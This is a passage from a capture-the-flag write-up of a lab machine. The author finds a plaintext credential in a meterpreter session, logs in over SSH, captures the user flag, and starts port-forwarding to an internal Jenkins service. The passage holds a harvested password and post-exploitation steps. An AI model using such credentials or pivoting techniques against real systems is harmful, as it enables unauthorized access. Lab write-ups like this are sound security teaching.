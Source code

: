 ```bash
Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
meterpreter >
```

I attempted to login with the provided credentials via ssh and was pleased to receive a shell that quickly netted the user flag, confirmed that jenkins was running in docker and provided me a host/port pairing in the docker bridge network's subnet.

```bash
root@kali:~/ctf# ssh aubreanna@10.10.215.86
The authenticity of host '10.10.215.86 (10.10.215.86)' can't be established.
ECDSA key fingerprint is SHA256:fJ/BlTrDF8wS8/eqyoej1aq/NmvQh79ABdkpiiN5tqE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.215.86' (ECDSA) to the list of known hosts.
aubreanna@10.10.215.86's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec  5 05:44:35 UTC 2020

  System load:  0.1               Processes:              113
  Usage of /:   64.0% of 8.79GB   Users logged in:        0
  Memory usage: 48%               IP address for eth0:    10.10.215.86
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

### Connecting to jenkins

Prior to starting enumeration of the aubreanna user, I decided to setup ssh port-forwarding so that I could easily connect back to the jenkins host that was bound to `127.0.0.1:8080`. Due to an already running conflict with burp, I bound it to port `8888` locally.
